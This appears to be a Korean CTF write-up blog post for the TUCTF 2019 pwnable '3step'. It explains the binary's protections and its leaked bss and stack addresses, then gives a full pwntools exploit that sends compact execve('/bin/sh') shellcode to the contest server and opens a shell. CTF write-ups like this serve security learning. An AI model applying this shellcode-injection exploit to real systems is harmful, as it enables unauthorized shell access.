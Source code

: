 +++
title = "TUCTF 2019 Pwnable 3step"
subtitle = "3step"

# Add a summary to display on homepage (optional).
summary = "pwnable 3step"

date = "2019-12-03T03:33:19+09:00"
publishDate = "2019-12-03T03:33:19+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = ['CTF', '2019', 'pwn', '3step']
categories = ['PWN']
keywords = ['CTF', '2019', 'pwn', '3step']

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

32bit 바이너리 `3step`와 접속 정보 `nc chal.tuctf.com 30504`가 주어졌습니다.
```py
>>> e = ELF('./3step')
[*] '/root/ctf/2019/tu/pwn/3step/3step'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
i386 바이너리이고  
Full RELRO 이므로 GOT Overwrite는 아니며  
Canary가 있으므로 BOF는 아니고  
NX bit가 해제되어 있고 RWX 세그먼트가 있으므로 100% 스택에 쉘코드 실행 가능합니다.   
<br>

```plain
j3rrry@kali:3step# nc chal.tuctf.com 30504
Welcome to our 3-step program!
Try out complimentary snacks
0x5665000c
0xffb5c08c

Step 1: j3rrry
Step 2: j4rrry
Step 3: j5rrry
```
문제 서버에 접속해보면 16진수 2개를 알려준 다음 3 Step에 걸쳐서 입력을 받습니다.  
<br>

```c
void __cdecl pwnme()
{
  void (*v0)(void); // [sp+8h] [bp-20h]@1
  char buf; // [sp+Ch] [bp-1Ch]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  puts("Try out complimentary snacks");
  printf("%p\n", &buf1);
  printf("%p\n\n", &buf);
  printf("Step 1: ");
  read(0, &buf1, 0x12);
  printf("Step 2: ");
  read(0, &buf, 0x10);
  printf("Step 3: ");
  read(0, &v0, 4);
  v0();
  if ( *MK_FP(__GS__, 20) != v2 )
    _stack_chk_fail_local();
}
```
바이너리를 디스어셈블링 해보면  
buf1과 buf의 주소를 출력해준다는 것을 알 수 있습니다.  
buf1은 bss 영역, buf는 스택 영역입니다.  
  
그리고 입력을 받는데 길이제한이 0x12, 0x10, 4로 매우 작습니다.  
쉘코드를 경량화하도록 커스텀을 해야하는데요.  
  
저는 다음과 같이 했습니다.  
Step 1: bss 영역에 '/bin/sh' 문자열 삽입  
Step 2: 스택 영역에 쉘코드 삽입  
Step 3: 삽입된 쉘코드 오프셋  
<br>

# Exploit
```py
from pwn import *

def start():
    e = ELF('./3step')
    r = remote('chal.tuctf.com', 30504)

    return e, r

def info():
    r.recvuntil('0x')
    bss = int(r.recvline(), 16)
    stack = int(r.recvline(), 16)
    log.info(hex(bss) + ' bss')
    log.info(hex(stack) + ' stack')

    return bss, stack

def step1():
    r.recvuntil(': ')
    r.send('/bin/sh')

def step2():
    r.recvuntil(': ')
    r.send(shellcode)

def step3():
    r.recvuntil(': ')
    r.send(p32(stack))

if __name__ == '__main__':
    e, r = start()
    bss, stack = info()

    shellcode = '''
        mov ebx, {}
        xor ecx, ecx
        xor edx, edx
        xor eax, eax
        mov al, 0xb
        int 0x80
        mov al, 0xb
        int 0x80
    '''.format(bss)
    shellcode = asm(shellcode)

    step1()
    step2()
    step3()

    r.interactive()
```
